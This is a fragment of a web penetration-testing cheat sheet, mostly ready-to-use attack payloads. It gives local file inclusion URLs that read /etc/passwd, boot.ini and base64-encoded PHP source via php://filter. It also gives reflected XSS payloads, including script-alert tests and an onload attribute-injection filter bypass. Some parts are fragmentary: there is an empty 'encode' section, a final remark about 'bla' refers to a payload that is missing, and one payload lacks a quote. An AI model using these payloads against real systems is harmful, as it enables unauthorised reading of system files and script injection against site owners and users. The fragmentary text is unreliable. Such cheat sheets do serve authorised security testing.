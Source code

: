 #### How to Test

```
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index
```

```
http://<target>/script.php?page=../../../../../../../../etc/passwd

```

```
http://<target>/script.php?page=../../../../../../../../boot.ini
```

#### LFI Payloads

* [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
* [Seclist LFI Intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### encode



## XSS

### Reflected

#### Simple test
This is a simple test to see what happens, this is not a prove that the field is vuln to xss

```javascript
<plaintext>
```

#### Simple XSS test

```javascript
<script>alert('Found')</script>
```

```javascript
"><script>alert(Found)</script>">
```

```javascript
<script>alert(String.fromCharCode(88,83,83))</script>
```

#### Bypass filter of tag script

`"  onload="alert(String.fromCharCode(88,83,83))`

```javascript
" onload="alert('XSS')
```

bla is not a valid image, so this cause an error

